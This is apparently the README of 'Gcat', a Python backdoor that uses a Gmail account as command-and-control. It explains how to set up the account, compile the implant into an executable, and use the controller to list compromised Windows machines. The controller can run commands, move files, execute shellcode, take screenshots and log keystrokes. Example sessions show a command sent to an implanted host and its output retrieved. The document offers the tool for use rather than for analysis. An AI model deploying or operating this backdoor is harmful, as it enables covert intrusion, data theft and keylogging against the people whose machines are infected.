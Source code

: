 <p align="center">
 <img src="https://github.com/s1l3nt78/gcat/blob/master/.idea/gcat.png" alt="" />
</p>

# Gcat
A stealthy Python based backdoor that uses Gmail as a command and control server

#  Original Author <a href="https://github.com/byt3bl33d3r"><strong>byt3bl33d3r</strong></a>

    Redeveloping a new Version
    *s1l3nt78
    
 -----------------------------------------------------------------------------------------------------
 
## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile implant.py using a 32bit Python installation**

--------------------------------------------------------------------------------------------------------

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YURR COMPUTERZ...

                        WATCHIN YURR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

-----------------------------------------------------------------------------------------------

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
